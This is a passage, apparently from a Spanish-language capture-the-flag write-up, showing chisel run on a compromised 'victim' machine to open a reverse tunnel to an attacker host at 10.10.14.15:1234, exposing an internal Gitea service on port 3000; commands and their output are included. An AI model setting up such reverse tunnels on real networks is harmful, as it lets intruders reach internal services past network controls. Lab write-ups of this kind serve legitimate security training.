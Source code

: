 ```bash wrap=false title='Máquina víctima'
'chisel' saved
/tmp # chmod +x chisel
/tmp # ./chisel

  Usage: chisel [command] [--help]

  Version: 1.11.3 (go1.25.1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel

/tmp # 
```

Y ahora simplemente nos conectamos:

```bash wrap=false title='Máquina atacante'
❯ ./chisel server --reverse -p 1234
2025/10/03 16:15:42 server: Reverse tunnelling enabled
2025/10/03 16:15:42 server: Fingerprint P8slwQ2GP2MrSKbxaejCI6HU9xE0uBrG+/7T6w5RA1w=
2025/10/03 16:15:42 server: Listening on http://0.0.0.0:1234
2025/10/03 23:32:07 server: session#1: tun: proxy#R:3000=>172.17.0.1:3000: Listening
```

```bash wrap=false title='Máquina víctima'
/tmp # ./chisel client 10.10.14.15:1234 R:3000:172.17.0.1:3000
2025/10/03 21:32:06 client: Connecting to ws://10.10.14.15:1234
2025/10/03 21:32:07 client: Connected (Latency 45.622202ms)
```

![Gitea](./3.png)

